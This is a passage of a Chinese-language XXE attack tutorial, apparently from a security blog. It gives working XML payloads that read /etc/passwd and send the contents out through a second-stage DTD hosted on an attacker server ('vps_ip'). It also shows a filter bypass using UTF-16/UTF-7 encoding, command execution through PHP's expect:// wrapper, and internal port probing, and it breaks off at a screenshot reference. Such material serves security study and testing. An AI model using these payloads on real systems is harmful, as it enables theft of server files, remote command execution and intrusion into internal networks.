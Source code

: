 **src.xml:**

```xml
<?xml version="1.0"?>
<!DOCTYPE root[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % remote SYSTEM "http://vps_ip/evil.xml">
%remote;
%all;
]>
<root>&send;</root>
```

**evil.xml: **

```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://vps_ip/1.php?file=%file;'>">
```

那么上面的xml解析顺序为：

1. `file` 实体变量被赋值为`/etc/passwd` 下的内容
2. 解析 `remote` 时候，访问`http://vps_ip/evil.xml`
3. `evil.xml` 内有`all` 实体，由于是嵌套实体，开始解析`send` 实体
4. 解析 `send` 实体的时候访问 `http://vps_ip/1.php?file=%file;`
5. 那么`file`将会访问url，将数据带出。

如果系统过滤了`ENTITY` 关键词时，可以尝试使用编码`utf-16,utf-7` 进行bypass。

### 执行系统命令

```xml
<?xml version="1.0"?>
<!DOCTYPE root[
<!ENTITY id SYSTEM "expect://id">
]>
<root>&id;</root>
```

不过利用的前提是php安装了`expect` 扩展。

### 探测内网端口

```xml
<?xml version="1.0"?>
<!DOCTYPE root[
<!ENTITY id SYSTEM "http://192.168.1.101:81">
]>
<root>&id;</root>
```

访问8000端口：

![1544461427(1)]({{site.url}}/images/1544461427(1).jpg)

访问80端口：
